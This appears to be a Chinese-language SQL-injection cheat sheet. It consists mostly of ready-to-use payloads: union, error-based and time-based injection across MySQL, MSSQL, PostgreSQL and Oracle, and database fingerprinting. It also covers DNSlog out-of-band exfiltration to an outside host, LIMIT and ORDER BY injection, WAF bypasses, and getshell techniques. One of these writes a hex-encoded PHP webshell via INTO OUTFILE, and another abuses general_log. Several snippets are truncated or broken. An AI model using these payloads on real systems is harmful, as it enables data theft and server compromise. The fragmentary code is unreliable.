

0x01 常见注入类型
一、带回显
1. 联合注入
1 | id=1' and 1=1--+ ==> id=1' and 1^0--+ ==> select !0 |
2.报错注入
-
1
id=1' union select 1,count(*),concat_ws(':',(select group_concat(table_name) from information_schema.tables where table_schema=database()),floor(rand()*2)) as a from information_schema.tables group by a --+
group by floor(random(0)*2)出错的原因是key是个随机数，检测临时表中key是否存在时计算了一下floor(random(0)*2)可能为0，如果此时临时表只有key为1的行不存在key为0的行，那么数据库要将该条记录插入临时表，由于是随机数，插时又要计算一下随机值，此时floor(random(0)*2)结果可能为1，就会导致插入时冲突而报错。即检测时和插入时两次计算了随机数的值。
-
条件：Mysql>5.1.5
1
2
3
4
5
6
7
8
9//updatexml():对xml进行查询和修改
id=1' and updatexml(1,concat(0x26,(version()),0x26),1)--+
id=1' and updatexml(1,concat(0x3a,(select username from security.users limit 1)), 1)--+
//extractvalue():对xml进行查询和修改
id=1' and (extractvalue(1,concat(0x26,(version()),0x26)))--+
1' and updatexml(0,(select group_concat(table_name) from information_schema.tables where table_schema='dvwa'),0)-- -
1' and updatexml(1,(select group_concat(column_name) from information_schema.columns where table_name='users'),1)-- -
1' and extractvalue(0,(select group_concat(table_name) from information_schema.tables where table_schema='dvwa'))-- -报错注入只能爆出32位，结合substring爆出64位flag
-
exp(x):计算e的x次方，需要Mysql>5.5.5
原理：Exp()超过710会产生溢出。
Payload:
1
id=1' and (EXP(~(select * from(select version())a)))--+ //未试验成功
二、无回显
1. 基于时间
Mssql：
waitfor {DELAY ‘time’ | TIME ‘time’}, time格式为“时:分:秒”。（无sleep函数）
1
id=1' waitfor delay '0:0:5';--+
Mysql：
BENCHMARK将一个表达式执行许多次：
1
id=1' and(SELECT BENCHMARK(10000000,ENCODE('hello','mom'))) and 1=1--+ //BENCHMARK(count, express)
sleep()函数：
1
2
3id=1' and(select sleep(5)) and 1=1--+
1' and if(LENGTH(DATABASE())=13,SLEEP(1),0);
1' and if(ord(SUBSTRING(user(),1,1))=114,SLEEP(1),0);Postgresql
最新版本的PostgreSQL数据库(8.2及以上版本)中，可以使用pg_sleep函数来引起延迟：
id=1' and SELECT pg_sleep(10);--+Oracle:
DBMS_PIPE.RECEIVE_MESSAGE函数将为从RDS管道返回的数据等待10秒。默认情况下，允许以public权限执行该包。
1
id=1' or 1=dbms_pipe.receive_message('RDS', 10)--+ //
2. 基于bool
3. DNSLOG带外
mysql的secure_file_priv为空的时候可以使用,版本基本在5.5.53之前。(经测试，5.5.2也不能成功带外)
1 | select load_file("////test.hcg10m.dnslog.cn//a.txt"); |
0x02 如何区分后端数据库
1. 看报错
1 | Oracle： |
2. 通过各个数据库特有的数据表和环境变量来判断
Oracle:
1
id=1 and (select count(*) from sys.user_tables)>0 and 1=1
-
- 特有的系统表
sysdatabases: 存储了所有的数据库，sysobjects存储了所有的数据库表。
select * from master.dbo.sysdatabases就可以查询出所有的库名。Sysobjects：SQL-SERVER的每个数据库内都有此系统表，它存放该数据库内创建的所有对象，如约束、默认值、日志、规则、存储过程等，每个对象在表中占一行。
1
id=1 and (select count(*) from )>0 and 1=1
syscolumns：每个表和视图中的每列在表中占一行，存储过程中的每个参数在表中也占一行。该表位于每个数据库中。主要字段有：
- 系统变量
SQL－SERVER有user,db_name(),@@VERSION等系统变量，利用这些系统值不仅可以判断SQL-SERVER，而且还可以得到大量有用信息。(无version()函数)
1
2
3abc.asp?p=YY and user>0 不仅可以判断是否是SQL-SERVER，而还可以得到当前连接到数据库的用户名
abc.asp?p=YY&n ... db_name()>0 不仅可以判断是否是SQL-SERVER，而还可以得到当前正在使用的数据库名； Mysql:
1
id=1' and (select count(*) from information_schema.TABLES)>0 and 1=1--+
3. 通过各数据库特有的连接符判断数据库类型
mssql数据库
1
http://127.0.0.1/test.php?id=1 and '1' + '1' = '11'
mysql数据库
1
2http://127.0.0.1/test.php?id=1 and '1' + '1' = '2'
http://127.0.0.1/test.php?id=1 and CONCAT('1','1')='11'oracle数据库
1
2http://127.0.0.1/test.php?id=1 and '1'||'1'='11'
http://127.0.0.1/test.php?id=1 and CONCAT('1','1')='11'
0x03 注入位置
1 | select * from tables where id=[子查询] order by [子查询, PROCEDURE ANALYSE] limit [PROCEDURE ANALYSE, INTO...LINES TERMINATED BY] |
1. limit注入
1 | <?php |
limit注入分有无order by. 若无order by可以使用union select，存在order by可以使用procedure analyse()报错注入和into outfile '' lines terminated by写文件。
1 | ?num=1 into outfile 'D:\\phpstudy_pro\\WWW\\test123.php' LINES TERMINATED BY 0x3C3F7068702061737365727428245F504F53545B70765D293B3F3E |
procedure analysis此方法只适用于小于5.6.6的5.x系列。into 需要有file权限
2. order by注入
1 | <?php |
order by后可直接跟子查询
1 | order=updatexml(1,concat(0x3a,user(),0x3a),1) |
3. 表名注入
show columns from $tableshow的语法如下。
1 | SHOW [FULL] COLUMNS {FROM | IN} tbl_name [{FROM | IN} db_name] |
后面可以直接跟where子查询：SHOW COLUMNS FROM test WHERE UPDATEXML(1,user(),1);
还有describe $table, update $table等。
0x04 绕过
1. 替换逗号
substring from…for
1
select ascii(mid(user(),1,2)) -> select ascii(substring(user() from 1 for 1))
like 'a%'成功再测试like 'aa%'、like 'ab%'…like 'az%'直到第二个字符正确，再测试第三个。select user() regexp '^a'
2. 符号替换

3. sqlmap tamper
过waf tamper相关
与burp联合，sqlmap4burp，gason，sqlipy
0x05 getshell
1. 注入写shell
mysql的secure_file_priv参数限制了的导入导出的文件权限，只能将文件导入或导出到指定位置（一般不能导出到web目录）。
这个参数不能动态更改，只能在mysql的配置文件中进行修改，然后重启生效。
show variables like ‘%secure%’. 其中当参数 secure_file_priv 为空时，对导入导出无限制
当值为一个指定的目录时，只能向指定的目录导入导出
当值被设置为NULL时，禁止导入导出功能
1 | mysql> select '<?phpinfo();?>' into dumpfile 'D:\\test.php'; |
- dumpfile/outfile/load_file区别参考：dumpfile/outfile/load_file
2. 日志写shell
general_log
1 | set global general_log='on'; |